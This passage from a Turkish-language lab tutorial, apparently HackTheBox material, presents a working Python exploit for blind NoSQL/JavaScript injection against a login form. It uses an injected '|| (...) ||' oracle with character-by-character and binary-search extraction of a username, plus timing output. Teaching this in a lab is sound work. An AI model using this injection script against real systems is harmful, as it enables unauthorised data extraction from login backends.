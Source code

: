 ```python
            break # Döngüden çıkın
    i += 1 # İndeks sayacını artırır (bir sonraki karakter üzerinde çalışmaya başlar)
assert (oracle('this.username == `%s`' % username) == True)
print("---- Binary search ----")
print("Username: %s" % username)
print("Requests: %d" % num_req)
```

Değiştirilen **script**'i çalıştırmak, istek sayısını 1678'den sadece 286'ya, zaman açısından ise 2 dakika 40 saniyeden 24 saniyeye düşürüyor! Bu, küçük veri parçalarını, örneğin bir **username**'i **dump** ederken büyük bir fark yaratmaz, ancak daha fazla veri çıkarmak istediğimizde, bu algoritmanın ne kadar zaman kazandıracağını tahmin edebilirsiniz.

```shell-session
[!bash!]$ time python3 mangoonline-exploit.py 

---- Binary search ----
Username: HTB{...SNIP...}
Requests: 286

real    0m24.186s
user    0m0.410s
sys     0m0.044s
```


### Finished script

Her iki algoritmayı da içeren script dosyasının tamamı şu şekildedir:

```python
#!/usr/bin/python3

import requests
from urllib.parse import quote_plus

# Oracle (cevaplar True veya False)
num_req = 0
def oracle(r):
    global num_req
    num_req += 1
    r = requests.post(
        "http://127.0.0.1/index.php",
        headers={"Content-Type":"application/x-www-form-urlencoded"},
        data="username=%s&password=x" % (quote_plus('" || (' + r + ') || ""=="'))
    )
    return "Logged in as" in r.text

# Oracle'ın doğru çalıştığından emin olun
assert (oracle('false') == False)
assert (oracle('true') == True)

# Kullanıcı adını dump et (‘regular’ search)
num_req = 0 # Request counter'ı 0'a ayarlayın
username = "HTB{" # Bilinen kullanıcı adı başlangıcı
i = 4 # İlk 4 karakteri atlamak için i'yi 4 olarak ayarlayın (HTB{)
while username[-1] != "}": # '}' (kullanıcı adının bilinen sonu) atılana kadar tekrarlayın
    for c in range(32, 128): #Tüm yazdırılabilir ASCII karakterleri arasında döngü
        if oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) == %d' % (i, c)):
            username += chr(c) # İfade True olarak değerlendirilirse geçerli karakteri kullanıcı adına ekle
            break # Ve döngüyü kır
    i += 1 # İndeks sayacını artırır
assert (oracle('this.username == `%s`' % username) == True) # Kullanıcı adını doğrulayın
print("---- Regular search ----")
```